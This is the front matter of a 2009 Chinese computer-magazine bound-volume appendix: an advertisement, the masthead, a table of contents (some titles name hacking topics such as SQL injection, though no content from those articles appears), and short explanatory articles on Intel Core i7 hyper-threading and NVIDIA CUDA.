## 电脑爱好者2009合订本（上）附录分册

- 上半年爱好者合集
- 业内精华文萃合集
- 学习+娱乐DVD光盘
- 杂志全文电子检索

| 300万字内容 | 2000篇文章 | 1000个应用方案 |
| --- | --- | --- |
| 2000个实用技巧 | 2000个问题解答 | 1000个专题方案 |

定价：89.8元(含正文、附录、配套光盘)
合订本
2009上半年 附录分册

# DeLUX
多彩科技
多彩科技 快乐共享

> 玉叩能旋止，人言与乐并
繁音忽已阕，雅韵诎然清
佩想停仙步，泉疑咽夜声
曲终无异听，响极有馀情
玉声如乐


### X22 II

- 丝膜高音，羊毛盆低音，60W功率输出，张力十足
- 高强度12mmMDF木质板材，音色细腻
- 专业电子分频技术，音色“平衡感”极佳
- 正面钢琴烤漆工艺，黑木纹贴皮，豪华大气



## 电脑爱好者

合订本·附录分册·2009上半年

## 《电脑爱好者合订本》2009年(上) · 附录分册

- 主管单位: 中国科学院
- 主办单位: 北京《电脑爱好者》杂志社
- 编辑出版: 《电脑爱好者》杂志编辑部

- 顾问: 郭传杰
- 社长: 陈梅
- 执行社长/主编: 封立鹏
- 出版部: 聂静(主任)
- 副主编: 潘留军
- 责任编辑: 董宏
- 发行部: 刘丽华(总经理) 戴治 (副总经理)
- 客户服务部: 顾建林(总经理) 姚雯(总监) 李隆 (南方客户总监) 米彬 (副总监)
- 法律顾问: 北京周涛律师事务所 (010-63141013)

- 办公/通信地址: 北京市海淀区万寿路翠微中里14号楼4层, 北京123信箱 (《电脑爱好者》合订本)
- 发行: 北京《电脑爱好者》杂志社发行部
- 邮购咨询: (010)68258784, E-mail: yougou@cfan.com.cn
- 网址: http://www.cfan.com.cn
- 经销: 各地报刊亭及新华书店

- 开本: 787×1092 1/16
- 印张: 21
- 字数: 50万字
- 刊号: ISSN 1005-0043/CN11-3248/TP
- 国内邮发代号: 82-528

## 目录

## 硬件新技术

- 9 新瓶装旧酒——i7超线程技术
- 10 GPU取代CPU的重要武器CUDA
- 11 告别鼠标键盘——Multi-touch多点触摸技术
- 12 超大号U盘——SSD固态硬盘
- 13 使用最频繁的接口再次升级——USB 3.0
- 14 一个平台同时运行多个操作系统——CPU虚拟化技术
- 14 一骑绝尘——下载速度我最快
- 16 3D游戏，以假乱真
- 17 嵌入式芯片转战上网本，Cortex-A8功耗仅为“凌动”1/7
- 18 漫谈处理器接口发展
- 19 DX11，引领游戏再一次升级

## 硬件应用百汇

- 20 主板BIOS升级失败如何自救？
- 24 爱本有道——笔记本维护保养方案
- 26 别拿耳机不当“干部”——耳机保养全面看
- 28 调养你的显示器——让字体更清晰
- 29 动力之源——笔记本电池使用注意事项
- 31 刷新希捷硬盘固件 破解“固件门”
- 32 点点鼠标切换音箱耳机
- 33 双声输出共享单音箱小技
- 33 硬盘风扇自己做
- 34 手把手——常见主板故障巧排除
- 36 如何让显卡正常运转

## 技巧硬碰硬

- 39 电池校正，还我电量
- 40 显卡BIOS刷新失败拯救方案
- 41 大扫除之插槽、接口篇
- 42 处理器购买要看参数
- 43 内存超频进阶指南
- 44 2D、3D分开用，显卡频率自动调
- 46 一个当两个用，上网本开启超线程
- 47 笔记本最适合用双显示器
- 48 蹭网也要讲技巧

## 硬件傻博士

- 49 摩机技巧小放送
- 51 随心所欲改变客观题答案的位置
- 52 内存排障全攻略
- 55 让我们拥有一个正常的“芯”

## 硬件故障一把抓

## 处理器

- 58 双核CPU的两个核心工作量差很多
- 58 双核心处理器的主频应该翻倍吗
- 58 双核处理器运行温度太高
- 58 电脑开机时CPU散热风扇狂转

## 显卡

- 58 Radeon 9550显卡能搭配24英寸显示器吗
- 58 PCI-E 2.0的显卡可以用在老主板上吗
- 59 为什么我的显卡跑3DMark总是出错
- 59 显卡的金手指断了
- 59 显卡DVI接口没有信号
- 59 什么显卡来搭配主板混合交火技术
- 59 新换显卡后游戏运行极慢
- 59 安装显卡驱动程序后电脑黑屏
- 59 显卡硬解码还需要怎么设置

## 网卡

- 60 无法识别网卡的标准
- 60 如何固定电脑在局域网内的地址
- 60 千兆网络速度为何很慢
- 60 关机后主板的USB接口仍然带电
- 60 七彩虹C.P35 X3主板上网掉线还死机

## 主板

- 60 我的主板能支持新处理器吗
- 61 主板工作电压高于CPU工作电压正常吗
- 61 Intel 945G芯片组主板主频太多不知怎么选择
- 61 集成主板不能安装Windows Vista SP1吗

## 外设

- 61 LCD显示器有必要贴膜吗
- 61 显示器常常自动待机
- 62 22英寸显示器在使用时距离多远比较合适
- 62 显示器播放视频时出现水波纹
- 62 游戏机外接多大的显示器好
- 62 显示器改变分辨率后图像变形
- 62 “墨粉用尽”时还能继续打印吗
- 62 打印机无法正常进纸
- 62 一体机倾斜放置会不会造成硬盘损伤
- 63 音箱“漏电”是怎么回事

## 电源

- 63 什么规格的电源才能支持三块硬盘
- 63 用功率计算器估算的电源功率准确吗
- 63 老电源还能用吗
- 63 升级显卡之后电源不支持

## 存储设备

- 64 刻录机只能刻录不能读盘
- 64 刻录DVD视频光盘播不了
- 64 刻录机:“高兼容性边界错误”是怎么回事
- 64 刻录机无法刻录D9光盘
- 64 如何识别先锋刻录机的编号
- 64 DVD刻录机图标总是丢失
- 64 新买的硬盘就有坏道
- 65 测试的硬盘传输速度总是一条直线
- 65 新硬盘速度慢过老硬盘
- 65 老移动硬盘无法被识别
- 65 GHOST无法备份硬盘数据
- 65 PC2 5200/5300/5400内存有什么差别
- 65 内存容量比实际少了
- 66 打开双通道需不需要改动BIOS设置
- 66 双通道能否支持不同容量的内存混装
- 66 SD卡的Class级别有什么含义
- 66 SD卡容量越大越费电吗

## 笔记本

- 66 笔记本电脑的一键还原功能失效
- 66 笔记本电脑加内存后听音乐死机
- 67 ASUS笔记本电脑驱动程序丢失了
- 67 笔记本电脑的显卡驱动丢失了
- 67 笔记本电脑增加新内存烧坏老内存
- 67 笔记本电脑标称最大内存与官方数据不符
- 67 笔记本上宽带网时MAC地址被锁定
- 67 笔记本电脑玩《魔兽争霸Ⅲ》老是死机
- 67 笔记本电脑找不到硬盘
- 68 笔记本电脑用PCMCIA网卡还是USB网卡好
- 68 笔记本电脑存在键位冲突问题
- 68 到哪里去找笔记本电脑的BIOS升级文件
- 68 笔记本电脑CPU总是低频率运行
- 68 笔记本电脑恢复途中突然断电
- 68 笔记本电脑的HDMI接口是否有兼容性问题
- 69 笔记本电脑无法识别外设
- 69 笔记本电脑平时需不需要取下电池呢
- 69 笔记本电池彻底没电了怎么办

## 数码产品

- 69 “潜望式”和“伸缩式”相机镜头哪个好
- 69 如何知道相机已经拍摄了多少张照片
- 69 摄像头驱动程序丢失了
- 70 家用投影机选“普屏”还是“宽屏”
- 70 GPS到了国外还能用吗
- 70 GPS多长时间找到卫星才算正常
- 70 GPS在使用时路线总是“跳来跳去”
- 70 GPS的分辨率是不是越大越好?
- 70 如何在PPC上快速找到GPS的端口

## 数码应用

- 71 小心 很多只眼睛在看着你
- 71 脸部追踪, 摄像头也行
- 72 多次曝光打造超强“影分身”
- 73 各系统手机上网设置详解
- 74 不插值、不骗人, 百万像素照出千万效果
- 75 快门也有很大大学问
- 75 手机电影特效123


- 76 一步一步学会在影片上添加太阳光晕
- 76 教你如何给手机贴膜
- 77 DV自制视频也可以多声道
- 78 设置手机开机画面和透明网络标志
- 78 使用x-Plore管理器隐藏图片
- 78 删除手机自带JAVA等软件
- 79 N-Gage不用买 Nokia N73免费变
- 80 不管国内国外 轻松实现Push-mail
- 81 Python入驻N78 疯狂QQ聊不停
- 82 利用自带照相机识别名片
- 82 修改注册表使spb mobile shell支持中文城市名称
- 83 用GPSView查询GPS工作状态
- 84 让来电铃声只在耳机里奏响
- 84 警惕! APE也不保真?
- 84 没有EQ, 创造EQ也要上
- 85 解决CUE文件乱码
- 85 手中的Youtube
- 85 听力也能双声道
- 86 PSP远程对战, So easy!
- 87 刷机失败不用愁, 记忆棒+电池拯救PSP
- 88 PSP也玩压缩
- 89 升级软件 释放PSP的全部威力

## 系统的的世界

- 90 U盘多媒体 不开电脑看大片
- 91 Vista东施效颦, 变身漂亮Windows 7
- 94 优化 Vista 岂能有故障?
- 96 Windows 7自带医生, 跟看病花钱说不
- 98 保障安全, 兼顾方便——调教让你烦恼的UAC
- 100 不用U盘 一条网线搞定上网本系统
- 102 合理设置账户权限 从此不再为系统漏洞担惊受怕
- 103 用魔盒 傻瓜也能装机
- 104 给虚拟机增加“硬盘”空间
- 105 扩展视野 本本使用双显示器
- 106 内存装系统, 运行实在快!
- 108 学会障眼法 让别人的U盘在你电脑上无法识别
- 108 从CAJ、PDF文件中提取文本
- 109 缩骨神功 Win7躲进上网本
- 110 鱼鱼让你也有Vista侧边栏
- 111 装Windows 7, 一文件搞定

## 安全防护百科

- 113 随处都是免费空间, 就用SQL注入!
- 114 红客必学: 看黑客如何注入Cookie!
- 115 一句话, 让无良卖家网店遭殃
- 115 安全网购, 四大法宝
- 116 与黑客玩模拟游戏 其乐无穷
- 118 不用虚拟机, 照样测病毒!
- 118 提防! 网络软件也带木马啦
- 119 禁止上传 ASP网站照样被挂马
- 120 小区免费蹭网，还不被发现
- 121 我的私密我做主

## 软件傻博士

## 系统博士后

- 122 Windows XP系统中的缩略图不显示了
- 122 Vista系统狂读硬盘
- 122 关闭Vista系统安全中心的提示
- 122 Vista中玩游戏不流畅
- 122 Windows XP Home Edition能用远程桌面吗
- 122 Vista的资源管理器停止工作
- 122 无法建立系统还原点
- 123 安装系统找不到Setup文件
- 123 重装系统后“我的文档”无法打开了
- 123 为何自动打开系统配置实用程序
- 123 如何恢复“我最近的文档”
- 123 启用、禁用Windows XP的服务
- 123 系统不让安装软件
- 123 Windows XP “组策略”无法打开
- 124 不让程序都安装在拥挤的系统分区内
- 124 抛弃光盘 XP自动修复受损的文件
- 124 看清楚蓝屏代码的真面目
- 124 不重启就让组策略修改生效
- 124 手工解决双击分区打不开的顽症
- 124 多个文件同时打印

## 办公博士后

## Word部分

- 125 让微软拼音不再“不请自来”
- 125 Word文档分页更有规矩
- 125 Word 2007启动加速
- 125 Word 2007也能多页打印预览
- 126 生僻字录入并不难
- 126 单独设置部分页面中的格式
- 126 清除Word 2007文件的隐私信息
- 126 Word 2007中取消正在执行的后台打印
- 126 Word 2007让文字表格化
- 126 用Word将WPS文件中的图片提取出来
- 126 Word 2007中空格变成小圆点了
- 127 Word文件格式转换成PDF格式
- 127 Word 2003提示Normal.dot错误
- 127 PDF文件格式转换成Word格式
- 127 Word文档显示图片不再延时
- 127 轻松解决TXT文字乱码问题
- 127 没有现成的带圈大数字怎么办
- 127 改错了没关系，Word后悔药可以起死回生
- 128 Word中的选择性粘贴有什么用

## Excel部分

- 128 Excel中用数据有效性限制重复数据录入
- 128 数字前有“0”也能算
- 128 如何在输入的数字自动加上小数点
- 128 Excel中不连续单元格快速输入相同内容
- 128 防止Excel表格中的公式被别人改动
- 129 隐藏Excel中的数据不成功
- 129 快速精确调整Excel表格宽度
- 129 将Excel的菜单和工具栏恢复为初始状态

## PPT部分

- 129 知识问答倒计时轻松做
- 130 在PowerPoint中“揪出”上下标
- 130 PPT文字旋转特效轻松做
- 130 妙用格式刷快速同步格式
- 131 一张纸上打印多幅幻灯片
- 131 在PowerPoint里改变公式的颜色

## 工具软件博士后

- 131 用WinAVI把RMVB转换成AVI百分百成功的方法
- 131 快速输入偏旁部首
- 131 让不受欢迎的QQ用户闭嘴
- 131 在IE7中直接查看星号密码
- 131 随时随地查生字
- 132 让Firefox快速用上IE收藏夹
- 132 高效工作 邮件拒绝重复
- 132 修复拖进度条无效的影片
- 132 IE7中文搜索乱码不再来
- 132 将杀毒软件嵌入WinZIP
- 132 保存RM格式影片文件中的某一片断
- 132 截取RM影片中的图像
- 133 清除RealPlayer中的播放记录
- 133 拖放一个RMVB文件时死机
- 133 通过右键菜单无法启动KMPlayer
- 133 KMPlayer播放时拖动文件总停顿
- 133 字幕文件过大无法刻录
- 133 如何查看图片的原始创建时间
- 133 使注释作为文件名
- 133 截取多幅图片时只开一个窗口
- 133 EXE文件运行不了
- 133 用其他软件接收Hotmail邮箱是否会被锁定
- 134 去掉MP3歌曲中歌手的声音
- 134 “特快专递”让邮件不再丢失
- 134 文件关联被损坏
- 134 不让数码照片泄密
- 134 拒绝压缩包中的无用文件
- 134 当心电脑把你骗了

## 软件故障一把抓

## 网络类

- 135 快车下载出现续传错误
- 135 找回IE桌面图标
- 135 使用迅雷后就无法打开网页
- 135 让电驴与快车共存
- 135 IE下载不提示保存
- 136 IE8中显示的网页按钮为何特别小
- 136 如何突破BT下载的封锁
- 136 无法使用摄像头聊天
- 136 Firefox无法打开HTTPS网页
- 136 UUCall不能打国际电话
- 136 浏览网页总是显示安全警告弹出窗口

## 办公类

- 136 淘宝旺旺为何不能自动启动
- 137 WinRAR为何不能解压缩4GB以上文件
- 137 WinRAR为何不能直接打开文件
- 137 Total Commander不能为文件改名
- 137 如何找回丢失的办公文档密码
- 137 搜狗拼音为何无法打出“囧”、“囧”、“囧”
- 137 搜狗输入法为何不能自定义#开头的短语
- 137 万能五笔不能输入汉字
- 137 金山词霸翻译结果中显示乱码
- 138 如何找回WinRAR的右键操作菜单
- 138 PowerPoint 2007中总是不能输入中文
- 138 如何打开大体积DOC文档
- 138 如何让EditPlus显示大字体
- 138 如何保存同花顺设置
- 138 Word文档不能另存为PDF
- 138 设置了排除后小红伞仍然报毒
- 139 为何无法搜索到部分文件
- 139 安装Office出错

## 安全类

- 139 如何解除卡巴斯基对正常软件的封堵
- 139 小红伞出现误报的解决方法
- 139 360安全卫士无法开启保护功能
- 139 优盾不能正常使用
- 139 找回超级兔子伪装的文件
- 140 瑞星监控小红伞消失了
- 140 禁止NOD32在邮件中添加信息
- 140 嗅探工具不能正常使用

## 影音播放类

- 140 播放画面颠倒后如何修复
- 140 禁止StormLiv.exe自动运行
- 140 PPStream为何不能全屏看节目
- 141 如何取消千千静听自动隐藏窗口
- 141 如何让自制的DVD拥有播放菜单

## 系统类

- 141 关闭Vista的系统还原功能
- 141 为何无法将WinPE装到优盘中
- 141 启动后提示MOM.EXE错误
- 141 系统不显示缩略图
- 142 打开方式中不能选择程序
- 142 系统盘空间为何越来越小
- 142 屏保总是自动用记事本程序打开
- 142 组策略所有选项丢失
- 142 登录到系统中就出现黑屏
- 142 字体不能安装
- 142 桌面主题为何不能更换
- 143 光驱不能显示
- 143 无法启动API
- 143 彻底删除一键还原精灵
- 143 彻底关闭系统中移动设备的自动播放
- 143 “章节分割器”不能正常工作
- 143 如何让所有的文件夹统一风格
- 143 光影魔术手边框损坏

## 数据恢复类

- 143 打开文件夹巨慢无比
- 143 如何减少μTorrent强制检查的次数
- 144 如何固定KMPlayer播放器的播放窗口
- 144 只显示盘符如何提取文件
- 144 如何还原卡巴斯基删除的文件
- 144 如何找回剪切的文件
- 144 网页文档格式排版我做主

## 工具天地

- 145 杜绝响一声就挂断的手机防火墙
- 145 Abplayer高清视频体验上班时间看大片
- 146 “雅虎乐译”定位气泡——让查询更方便
- 146 “音乐管家婆”管理的你音乐世界
- 147 Avira AntiVir Personal免费杀毒
- 147 有了PowerCHM，CHM文档转换不用愁
- 148 Babylon——学习英语的得力助手！
- 148 QQ头像变摇头娃娃啦
- 149 Beyond Compare神奇比较图片差异
- 149 要约会，让MSN地图为你指路
- 150 FCleaner——清理系统的好帮手
- 151 CrazyTalk让照片动起来
- 152 TpSWF2Video让Flash轻松转视频
- 153 PhotoCap将照片变成拼图
- 153 QQ影音轻松制作GIF动画
- 154 有了Style xp 打造百变XP
- 154 Mushykeys网上练习打字
- 155 RoboForm——表单填充和密码管理的好帮手
- 156 TreeSize——硬盘空间管理好帮手
- 156 让电脑智能自动关机
- 157 USBKiller——U盘的保护伞
- 157 “风满楼”，3D文字制作的好帮手
- 158 vloud网上扩音器
- 158 XnView不让你的图片受折磨
- 159 成人脑力训练 让大脑思维更活跃
- 159 艾米桌面——办公生活好帮手
- 160 一起来做大头贴
- 161 给电脑一点绿色！——桌面小软件 DesktopPlant
- 161 个性化桌面看我的——“e族百变桌面”软件
- 162 工作中的娱乐——“抬头吧”
- 163 古典壁纸轻松做——苟国古典壁纸编辑器
- 163 快速轻松隐藏 一键搞定所有窗口
- 164 好心情，从桌面开始！
- 165 教你高效快捷整理碎片
- 166 节能环保 省省看
- 167 做经典游戏 找回童年记忆
- 167 用Windows照相机轻松捕捉屏幕
- 168 精彩网页轻松保存
- 168 抛弃转换软件——使用播放软件转录高清电影
- 169 看图，你试过3D吗？
- 169 酷狗音乐帮你定时关机
- 170 灵格斯词霸——网上全能翻译家
- 170 你的系统干净吗？

## 办公软件应用技巧

- 171 美图秀秀帮你完善身材
- 172 旅游查询好帮手
- 173 批发音乐——百度歌曲下载器2009
- 173 轻松批量缩放图片
- 174 驱动程序轻松安装——驱动天使
- 174 轻松简便去除图片水印
- 175 轻松卸载不留痕——Total Uninstall卸载软件
- 176 全面清扫系统“垃圾”，让电脑运行如新
- 177 让桌面“动”起来，体验精彩的3D效果
- 177 享受读书乐趣
- 178 找个伴侣增强IE功能
- 178 视频轻松下载——狸窝下载器
- 179 让时间随身温馨提示
- 179 误删图片 轻松恢复
- 180 使用BusinessCards MX 精美名片手到擒来
- 181 视频转换易如反掌——超级转换秀
- 181 音视频格式轻松转换——FormatFactory
- 182 随时随地消灭病毒——便携式杀毒软件ClamWin Portable
- 182 文件快速分割——海啸文件分割器
- 183 网页随意浏览——Thooe随E浏览器
- 184 提高K歌水平，我有ABPlayer
- 184 有道词典 让桌面更丰富
- 185 用谷歌桌面，最新信息轻松获得
- 185 文件夹加密 保护隐私有绝招
- 186 小小鼠标，演绎精彩懒人生活
- 187 隐藏窗口的好助手
- 187 图片医生ImageDoctor
- 188 优盘搬运工——你的私人搬运助理！
- 189 鱼鱼桌面——打造最精美实用的桌面
- 189 最强的网址嗅探工具——网址神探
- 190 印象派照片轻松做——美图秀秀
- 191 Total Recorder——让你的在线试听音乐更流畅
- 191 CYY超级启动——全智能的桌面助手
- 192 记录岁月痕迹——效能日记本
- 192 照片管理好帮手
- 194 让MSN头像动起来
- 195 让你的文字炫起来
- 195 用Word绘图工具制作精美图片
- 196 你的电脑加密了吗？

- 117 松下PT-U1S90投影机待机保护的修理
- 193 组织结构图，让PPT课件一目了然
- 194 在Word中让环绕方式“出出格”
- 195 用Word 2000中的绘图工具制作精美图片
- 199 PPT文档批量处理工具，教你征服自己的PPT文档
- 200 图片也变大头贴，看我PPT
- 200 “抠”出中英文对照文档中的中文内容
- 201 PPT也玩菜单特效
- 202 Word绘图的基本方法和技巧
- 205 Word中如何使长篇文档呈现不同的页眉
- 205 Word软键盘让你快速输入常用符号
- 206 变化的标题 不变的操作——巧用Excel“页面设置”快速设置不同的标题
- 207 表格合并、拆分、分析不用愁，数据助手解你忧
- 208 活学活用，用EXCEL制作历史地图
- 209 规范电子表格格式的数据报表
- 210 条件函数出手，分类汇总无忧
- 210 给Office文档暗藏一剂后悔药
- 211 活用Excel 2007，巧解鸡兔同笼难题
- 212 巧用函数来分析学生考试成绩
- 213 让Excel自动完成成绩处理和统计
- 214 为Word 2007添加“发送到Microsoft Office PowerPoint”命令
- 215 实验数据“处理+作图”，Excel照样轻松搞定
- 215 教你批量添加Word页眉页脚
- 216 Excel与Word联手，轻松搞定涨工资
- 217 打造PPT版随机出题系统
- 219 汉字书写特效，PPT也能做
- 240 山寨WPS图文符号库
- 243 在Office 2007中让Office按钮动起来
- 244 Office文件保护不用别的也能破
- 247 安全模式下拯救受损的Office组件
- 258 Excel斜线表头绘制，其实并不难
- 270 满屏显示Excel各行数据
- 277 快速调整Excel行列顺序
- 296 表情涂鸦，玩就玩免费的

## 办公串串烧

- 23 数字编号，轻松输入
- 33 自由控制目录页码的显示方式
- 48 自动登录QQ的改进脚本
- 54 让含有公式的单元格与众不同
- 71 在Excel中将日期中的月和日补为两位
- 79 KMPlayer也能打造视频缩略图
- 86 如何开启Office 2007中的朗读功能
- 97 跨列居中更好用
- 104 老Word，默认也用雅黑
- 107 Word 2007双栏排版技巧
- 112 Excel的超级任务

## 网络浏览

- 221 剥离网页视频 在线看电影收放自如
- 222 软硬兼施，无障碍看高清电影
- 223 “傲游”网络有诀窍
- 225 调教IE8 DIY自己的专属浏览器
- 226 浏览器中的专业搜索快车道
- 226 取回丢失的文字 小狐狸变身神偷
- 227 画皮外传——五道符贴出网速变慢的元凶
- 228 小方法提高IE8浏览效率
- 229 补全Chrome不应丢掉的五大功能
- 230 一次收藏 随处可用
- 231 谷歌地球使用三妙招
- 231 巧取QQ贺卡中心贺卡地址
- 232 网络跟踪——让好友动态明察秋毫
- 233 WriteToMyBlog：在线撰写博客很轻松
- 233 对《和谐共处，多个QQ自动登录》一文的补充
- 234 不用装MSN 网页上面即时聊
- 234 为Windows Live Writer添加替换功能
- 235 图片在线要特效 秀出真我风采
- 236 何必装软件 网络帮你全搞定

## 网络下载

- 237 骑“驴”看唱本——下载走着瞧！
- 239 看的就是享受——高清电影下载
- 240 BT常见小技巧
- 241 见名知片，巧识视频清晰度
- 242 下载地址的“解密”与“加密”
- 243 快车3里的新技巧
- 244 用好快车的私有“车库”

## 邮件程序

- 245 巧用Outlook为工作提速
- 248 嗨，收到邮件请“吭”一声
- 248 E-mail搭起的个人共享网站
- 249 借助Google工具栏收发Hotmail邮件
- 249 小心支付宝交易中的陷阱
- 250 邮件发送地一目了然
- 250 以邮件的名义创建Google在线文档

## 即时通信

- 251 QQ宠物喂养不完全手册
- 251 QQ群消息 只接收我需要的
- 252 用SKYPE实时监控家中的情况
- 252 另辟蹊径，令MSN 2009多开
- 252 让MSN 2009不再与微软拼音输入法“死磕”
- 253 彻底隐藏QQ图标
- 253 分组备份QQ好友名单 你也能行
- 253 将QQ隐藏起来
- 254 教你领养QQ宠物
- 254 快速将未打包的QQ表情据为己有
- 255 启用新版QQ 轻松找回聊天记录
- 255 让你消失在QQ好友视线中
- 255 轻松搞定刷钻恶意骚扰
- 256 如影随形 非会员也能漫游聊天记录
- 257 让指定的QQ号在你的电脑无法登录
- 257 删除无用的MSN共享文件夹
- 258 QQ空间背景音乐连续播放
- 258 阿里旺旺自动滚动签名

## 局域网天地

- 259 宿舍里的坎坷共享路
- 260 齐步走别掉队 局域网内时间同步
- 260 邮件轻松转移 不怕系统重装
- 261 省钱有妙招 硬件设备一物多用
- 263 网络硬盘哪个更强？
- 264 IE8里的安全盾牌
- 265 几招助你公司网络打印大提速
- 266 家庭无线网络放心畅游7要诀
- 267 家用无线路由高级功能ABC
- 269 帮你“检阅”局域网
- 270 无线上网 信号还能更强

## 网络视野

- 271 玩转多标签聊天
- 271 自己打造去广告版QQ2009
- 271 无需外援 批量删除QQ好友
- 272 WAP网站起先锋，3G时代挖黄金
- 274 3分钟 文件共享轻松行
- 274 无需下载QQ 教你用QQ邮箱和好友聊天
- 275 中转站 让大文件共享更易
- 276 打造属于自己的视频站点
- 277 小网站如何拥有大流量
- 278 是赢是输 自架博客的利与弊
- 278 QQ会员头像，简便才是硬道理
- 279 我最省钱！WordPress建免费个人博客

- 282 从“燕莎”到“赛特”——网店搬家
- 283 网购不被骗 得懂点反“忽悠”绝招
- 284 网购中常见的“忽悠”手段
- 284 网店搬家为哪般？
- 285 如何“淘”到好宝贝
- 285 信誉度高就一定好吗？
- 286 百变博客赚钱模式分类看
- 286 网络赚钱万花筒
- 287 博客运营必杀技
- 287 解析威客运营模式
- 288 小博来钱指南针
- 288 威客知多少
- 289 有事您说话！——威客网领任务赚钱
- 290 不可忽视的淘宝规则
- 291 卖掉网，统统都卖掉！
- 292 淘宝店铺随身带——巧用移动旺旺
- 292 淘宝网购“买单”须谨慎
- 293 网购维权知多少
- 294 我的第一次网购——今天，你网购了吗？
- 296 小心支付宝交易中的陷阱
- 297 在网上“王府井”开家店——淘宝开店教程
- 304 杂七杂八搜——网赚天下

## 新瓶装旧酒——i7超线程技术

在Intel发布的新款处理器Core i7中，赫然看到一项名为SMT的技术。SMT技术其实和当初奔腾四处理器时代的超线程技术如出一辙，只是在当初随着奔四一路溃败，超线程技术也就无人问津了。为什么Intel要在最新的处理器中继续引入奔腾四时代处理器的技术呢？它究竟能给Core i7处理器带来什么样的提高呢？

### 什么是超线程技术

说SMT技术就不得不提高HT超线程技术。简单来说，利用HT超线程技术可以将一个核心的处理器模拟成两个核心来使用，也就是说能让单核变双核，双核变四核的魔幻般技术。该项技术最早被用在奔腾四处理器上。可遗憾的是，在之后的时间里，HT超线程技术被吹嘘得神乎其神，但是市场反应并不强烈，加上之后全线的奔腾四处理器被全新的酷睿处理器所淘汰，为此HT技术也就没有再被沿用下去。

时过境迁，在Intel最新发布的Core i7处理器中，HT超线程技术再度被激活，同时被改名成SMT技术。这项技术允许将一个真实处理器核心模拟为两个虚拟核心，这样在理想的条件下，处理互不冲突的多线程任务时，便能充分利用每个核心中的空闲执行单元。依次类推，原先有4个独立核心的i7处理器，通过SMT技术，就可以摇身变成一个8核处理器。假设有一天Intel推出了8核心的处理器，那么同样的通过SMT技术，可以化身成16核心的处理器。



从CPU-Z中可以看出，Core i7具备4核心8线程，其中8线程便是超线程技术的体现。

### 内存带宽提高，超线程技术显威力

为什么Intel要在Core i7处理器中加入SMT超线程技术呢？首先，得益于Core i7处理器中整合了内存控制器，因此可以获得非常充裕的内存带宽，因此处理器核心能获得非常充裕的数据，如果利用SMT超线程技术，可以将两个物理核心的处理器模拟成四个核心处理器的话，无疑将能同时执行更多的程序，而各个程序之间不会形成太多的相互干扰。

其次，从目前的处理器主频来看，只有在特殊环境下执行压缩，或是渲染等工作时，才会完全占用处理器，因此在大部分的情况下，处理器将有许多资源被限制，因此利用SMT超线程技术将可以完全发挥出处理器频率上的优势和潜力，让每个核心执行多个线程。

### 超线程的性能提升要靠软件优化

“7%和13%的浮点和整数性能提升、10~34的应用程序和基准测试性能提升”，这是Intel官方给出的采用SMT超线程技术后性能提升的资料。谁都知道，一项新的技术要被合理地运用必须要有软件支持才行。从实际测试来看，在支持多核心的软件下，利用SMT超线程技术同样能获得一定的性能提升，尤其在理论性能测试和多线程渲染方面，超线程技术有着天然的优势。

反倒是在游戏表现方面，在开启了SMT超线程技术后，表现出强烈的不适应，性能上反而有所下降。鉴于很多游戏厂商对物理多核心的挖掘利用都很不充分，以此类推的话，对SMT超线程技术的待遇也不会太好，性能下降也就在情理之中了。

### 超线程技术与多核心技术的区别

超线程技术就是利用特殊的硬件指令，把一个核心模拟成两个具备独立线程的核心。而多核心技术则是将2颗或更多的独立的、完整的内核封装在一颗处理器中。相比之下，多核心可以看成“硬件”上的多核技术，而超线程技术则只是“软件”上的多核技术。



从i7内部核心来看，虽然只有4个独立的核心，却能通过软件的方式将每一个独立的核心一分为二来使用。

### 超线程是把双刃剑

举例来说，它可以把四核心的Core i7处理器让系统自动识别成八核心，从而可以同时执行更多的程序，以提高电脑的利用效率。虽然利用SMT技术能让处理器的核心数量看上去翻倍，但是它并不像真正核心的处理器那样，每个核心都具有独立的资源。一旦某个核心被一个软件独占时，再有额外的软件加入必定会相互影响。从本质上来看，SMT只是软件层面上的技术，以充分利用处理器闲置的执行单元为目的，但并不能将处理器的可执行资源翻倍。

SMT同步多线程测试带来的性能提升，和Intel官方的说法基本吻合，支持多线程的软件性能提升20%左右，它使Core i7的多线程处理能力达到一个前所未有的高度。但是和当年Pentium 4开启超线程的情况类似，SMT目前还是一把双刃剑，部分软件和SMT仍存在兼容性问题，使性能严重下降，相信新版本软件会解决这个问题。而游戏方面，虽然SMT对游戏的FPS有一点影响，但从评测结果可知，这点FPS下降根本不影响游戏的流畅度，随着分辨率的提高，这点差距将会逐渐消失，更多的是考验显卡性能。综上所述，SMT明显是利远大于弊。

## GPU取代CPU的重要武器CUDA

随着显卡的发展，GPU的功能日趋强大，而且在显示图像方面不断优化，在计算上已经超越了通用的CPU。如此强大的芯片如果只是作为显卡就太浪费了，因此nVIDIA推出CUDA，让显卡可以用于图像计算以外的目的。

### 技术正愈发完善

CUDA是一种由nVIDIA推出的通用并行计算架构，该架构使GPU能够解决复杂的计算问题。它包含了CUDA指令集架构（ISA）以及GPU内部的并行计算引擎。开发人员现在可以使用C语言来为CUDA架构编写程序，C语言是应用最广泛的一种高级编程语言。所编写出的程序可以在支持CUDA的处理器上以超高性能运行。随着CUDA的不断拓展与深化，将来它还会支持其它语言，包括FORTRAN以及C++。

CUDA的SDK中的编译器和开发平台支持Windows、Linux系统，可以与Visual Studio 2005集成在一起。

这项技术正处在起步阶段，仅支持32位系统，编译器不支持双精度数据等问题要在晚些时候解决。Geforce 8 CUDA是一个新的基础架构，这个架构可以使GPU来解决商业、工业以及科学方面的复杂计算问题。它是一个完整的GPGPU解决方案，提供了硬件的直接访问接口，而不必像传统方式一样必须依赖图形API接口来实现GPU的访问。在架构上采用了一种全新的计算体系结构来使用GPU提供的硬件资源，从而给大规模的数据计算应用提供了一种比CPU更加强大的计算能力。CUDA采用C语言作为编程语言提供大量的高性能计算指令开发能力，使开发者能够在GPU的强大计算能力的基础上建立起一种效率更高的密集数据计算解决方案。



### 前景无限看好

